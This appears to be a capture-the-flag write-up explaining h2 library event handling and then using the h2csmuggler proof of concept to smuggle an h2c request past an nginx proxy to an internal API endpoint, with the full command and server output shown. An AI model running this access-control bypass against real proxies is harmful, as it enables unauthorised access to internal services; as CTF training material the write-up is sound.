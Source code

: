 Now that we sent the HTTP/2 request, we need to receive the response.

When you communicate over HTTP/2 using the h2 library, the server sends data and signals as part of the protocol,
which might include things like:

* Incoming requests
* Responses
* Stream lifecycle changes
* Flow control updates
* Server push notifications
* And more...

The h2 library abstracts these incoming signals into **“events.”**

To handle those "events", we have to receive raw data from the network and process it
as follows:

```python
# get the data using socket.recv()
events = getData(h2_connection, connection)

def handle_events(events, isVerbose):
    for event in events:
        if isinstance(event, ResponseReceived):
            # Handle response headers
            for name, value in event.headers:
                print(f"{name.decode('utf-8')}: {value.decode('utf-8')}")
        elif isinstance(event, DataReceived):
            # Handle response body data
            print(event.data.decode('utf-8', 'replace'))
```

### Combining Everything Together

Now that we know how [Jake Miller's](bishopfox.com/blog/h2c-smuggling-request) PoC works, we can use it to bypass nginx's
access controls as follows:

```bash
python3 h2csmuggler.py -x "https://nopsctf-<INSTANCE_ID>-plotwist-1.chals.io/api/lordhttp" "http://localhost/api/noopsy"
```
Where:

* `-x, --proxy PROXY` is the proxy server to try to bypass
* `http://localhost/api/noopsy` is the smuggled URL

The command as it is will send a GET request to `/api/lordhttp` and `/api/noopsy`,
but the application accepts POST requests to both, does it accept GET requests? Let's try:

> We could've send some OPTIONS/HEAD methods to verify that the server actually
> sends an `allow: GET` header, but testing it this way is faster.

```bash
h2csmuggler on  master [!] via 🐹 via 🐍 v3.13.3
➜ python3 h2csmuggler.py -x "https://nopsctf-dcdefb599276-plotwist-1.chals.io/api/lordhttp" "http://localhost/api/noopsy"

[INFO] h2c stream established successfully.
:status: 200
content-length: 46
content-type: application/json
date: Wed, 04 Jun 2025 13:12:22 GMT
server: hypercorn-h2

{"msg":"Hello from the other side, Lord HTTP"}

nopsctf-dcdefb599276-plotwist-1.chals.io/api/lordhttp - 200 - 46
```
